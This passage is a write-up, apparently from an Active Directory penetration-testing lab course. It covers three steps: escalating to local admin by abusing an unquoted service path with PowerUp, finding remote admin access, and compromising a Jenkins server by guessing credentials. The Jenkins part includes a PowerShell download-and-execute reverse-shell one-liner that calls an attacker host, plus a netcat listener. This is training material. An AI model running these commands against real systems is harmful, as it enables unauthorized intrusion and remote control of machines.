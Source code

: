 Learning Objective 5

# **1)Exploit a service on dcorp-studentx and elevate privileges to local administrator.**

So we need to attain local admin priv at dcorp-studentx machine by exploting a service running at here.

i)using Powerup

load the power up then check for vulnerable service

command:
```  Invoke-AllChecks```

O/P:
![alt text](image-10.png)

so we found that the "AbyssWebServer" contains whitespace and it is unquoted so it is abusable and the above output also gives the abuse function.

we can get the examples of how we can use Invoke-ServiceAbuse funtion
command:

```  help Invoke-ServiceAbuse -Examples```

O/P:
![alt text](image-11.png)
here we are using example number 3 and adding the domain user student219 to the Administrators group and getting local admin priv

command:
```  Invoke-ServiceAbuse -Name 'AbyssWebServer' -UserName dcorp\student219 -Verbose```


check student user is added to Administrators group
``` net localgroup Administrators```

O/P:
Alias name     Administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members

-------------------------------------------------------------------------------
Administrator
dcorp\Domain Admins
dcorp\student219
The command completed successfully.

now logoff and login to student user then we have admin priv|

what actually happens here?the real path for the AbyssServer serice is replaced by a payload path that add the studentx user to the administrators group.

ii)same using WinPeas

command:
```C:\AD\Tools\Loader.exe -Path C:\AD\Tools\winPEASx64.exe -args notcolor log```
O/P:
![alt text](image-12.png)

iii)same using PrivescCheck

import privesccheck
```. C:\AD\Tools\PrivEscCheck.ps1```

run
```Invoke-PrivescCheck```

O/P:
![alt text](image-13.png)


# **2)identify a machine in the domain where studentx has local administrative access, use Find-PSRemotingLocalAdminAccess.ps1**

For this task we can also use WMI and Find-LocalAdminAccess
Here using powershellRemoting
![alt text](image-14.png)

now login to adminsrv
![alt text](image-15.png)

so the student user have admin access on the adminsrv server so that we are able to login it remotely

# **3)Using the privileges of a user on Jenkins on 172.16.3.11:8080,get admin privileges on 172.16.3.11-dcorp-ci server**

we know that in our lab environment a jenkins server is running on dcorp-ci machine with admin priv

so we are visiting that webpage and in the peoples page  we can find some of the users and their username,,, using that to log in the jinkins webpage as using same username as passowrd,, we got successfully logged in while using 
"username:builduser
password:builduser"

![alt text](image-19.png)

then by visiting the profile we are checking that we can configure build or we have admin access we just simply visit the "http://jenkinsserverip/script" and input script and run that to try cmd exectuion and rev shells
here we dont have admin priv,, so if we can configure builds then we can configure a build as "Execute Windows batch command" with including a reverse shell to the destination of ours attacking machine and dowloadin the revershell code
``` powershell.exe iex (iwr http://172.16.100.219/Invoke-PowerShellTcp.ps1 -UseBasicParsing);Power -Reverse -IPAddress 172.16.100.219 -Port 443```

then save....

![alt text](image-16.png)

host the revershell on our machine using hfs

![alt text](image-17.png)






Now start a listener on our machine
command:
``` C:\AD\Tools\netcat-win32-1.12\nc64.exe -lvp 443```

now click the build now and start to build,,, now while it is building we can see that revershell is getting downloaded from out host to destinaion in hfs application 

and now we got rev shell and it is with ciadmin priv
![alt text](image-18.png)